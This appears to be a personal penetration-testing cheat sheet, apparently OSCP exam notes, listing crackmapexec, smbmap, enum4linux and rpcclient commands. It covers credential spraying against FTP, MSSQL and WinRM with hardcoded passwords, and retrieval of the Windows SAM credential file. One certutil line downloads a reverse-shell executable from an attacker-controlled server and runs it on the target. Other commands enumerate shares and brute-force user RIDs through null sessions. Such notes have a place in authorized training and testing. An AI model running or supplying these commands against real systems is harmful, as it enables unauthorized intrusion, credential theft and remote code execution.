 ```bash

#ftp
crackmapexec ftp 192.168.x.x -u "<% tp.frontmatter["USERNAME"] %>" -p "<% tp.frontmatter["PASSWORD"] %>" --continue-on-success

#mssql
crackmapexec mssql 192.168.x.x -u sql_svc -p Dolphin1
crackmapexec mssql 10.10.85.148 -u sql_svc -p Dolphin1 -d oscp.exam --get-file "C:\TEMP\SAM" SAM

#winrm
crackmapexec winrm 192.168.x.x -u "<% tp.frontmatter["USERNAME"] %>" -p '<% tp.frontmatter["PASSWORD"] %>' -d <% tp.frontmatter["DOMAIN"] %>  --continue-on-success
crackmapexec winrm 192.168.x.x  -u "<% tp.frontmatter["USERNAME"] %>" -H '' -d <% tp.frontmatter["DOMAIN"] %> --continue-on-success
proxychains -q crackmapexec winrm 172.16.80.21 -u Administrator -p 'vau!XCKjNQBv2$' -x 'certutil -urlcache -f http://192.168.45.176:8000/revshell7777.exe C:\Users\Public\revshell7777.exe'
proxychains -q crackmapexec winrm 172.16.80.21 -u Administrator -p 'vau!XCKjNQBv2$' -x 'C:\Users\Public\revshell7777.exe'
```

### enum4linux
```bash
enum4linux -a 192.168.201.175
```

### SMBMAP
```bash
smbmap -H 192.168.x.x
smbmap -H 192.168.x.x -u '' -p ''
smbmap -u username -p password -d active.htb -H 192.168.193.5

# using -r, we can see what's on the directory
smbmap -H 10.129.14.128 -r notes

smbmap -H 10.129.14.128 --download "notes\note.txt"
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
```

### rpcclient
```bash
rpcclient 10.10.10.10
rpcclient 10.10.10.10 -U '' -N
> enumdomusers


>lookupnames administrator
> get the sid and change the user side at the very last part(500)
> user's sid start from 1000 so we can start enumerating from there
> lookupsids S-1-5-21-4078382237-1492182817-2568127209-1000

for i in $(seq 500 4000);do rpcclient -N -U "" 10.129.14.128 -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done

```
